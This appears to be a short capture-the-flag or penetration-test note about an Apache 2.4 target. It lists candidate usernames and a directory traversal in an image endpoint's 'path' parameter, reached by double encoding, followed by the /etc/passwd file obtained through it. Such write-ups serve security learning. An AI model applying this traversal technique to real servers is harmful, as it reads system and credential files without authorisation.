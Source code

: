 ### Apache 2.4

Possible users:
- administrator
- michael
- john
- dmytro

### Directory Traversal in: `/includes/img.php?path=...`. Just double encode
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
tss:x:103:109:TPM software stack,,,:/var/lib/tpm:/bin/false
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:105:111:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:106:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:107:115:RealtimeKit,,,:/proc:/usr/sbin/nologin
sshd:x:108:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:110:116:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
pulse:x:112:118:PulseAudio daemon,,,:/run/pulse:/usr/sbin/nologin
saned:x:113:121::/var/lib/saned:/usr/sbin/nologin
colord:x:114:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:115:123::/var/lib/geoclue:/usr/sbin/nologin
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
bill:x:1000:1000:bill,,,:/home/bill:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
postgres:x:117:125:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
```
